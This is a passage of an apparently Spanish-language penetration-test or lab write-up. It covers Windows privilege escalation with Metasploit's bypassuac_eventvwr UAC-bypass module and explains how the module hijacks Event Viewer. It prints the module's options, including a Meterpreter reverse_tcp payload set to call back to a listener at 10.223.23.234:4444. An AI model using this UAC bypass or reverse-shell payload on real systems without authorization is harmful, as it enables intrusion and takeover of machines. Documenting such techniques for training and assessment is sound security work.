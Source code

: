 
Estos resultados proporcionan un inventario de vectores de escalada de privilegios para usuarios con permisos limitados.

## Escalada de privilegios: módulo `bypassuac_eventvwr`

Tras evaluar los exploits sugeridos, se identificó que, debido a la arquitectura x64 del sistema y la configuración del UAC, era posible utilizar el módulo:

```bash
 exploit/windows/local/bypassuac_eventvwr
```

# ¿Qué hace este módulo?

`bypassuac_eventvwr` es un módulo de Metasploit para **evadir User Account Control (UAC)** en Windows aprovechando un truco relacionado con el **Event Viewer (eventvwr.exe)**. Básicamente, el módulo inserta (temporalmente) una entrada que provoca que, al lanzarse el visualizador de eventos, se ejecute un comando controlado por el atacante con privilegios elevados, lo que permite obtener una segunda shell sin la restricción de UAC. El módulo **limpia** la entrada del registro después de que el payload se ejecute.

### Configuración del módulo

Al cargar el módulo, se verificaron sus opciones:

```bash
msf6 exploit(windows/local/bypassuac_eventvwr) > show options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.223.23.234  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```

Opciones importantes:

- **SESSION:** Sesión de Meterpreter sobre la cual se ejecutará el exploit (requerido).
- **Payload (windows/meterpreter/reverse_tcp):**
    
    - **LHOST:** Dirección IP local para recibir la conexión inversa.
    - **LPORT:** Puerto de escucha para el handler.
    - **EXITFUNC:** Técnica de salida del payload (`process` por defecto).
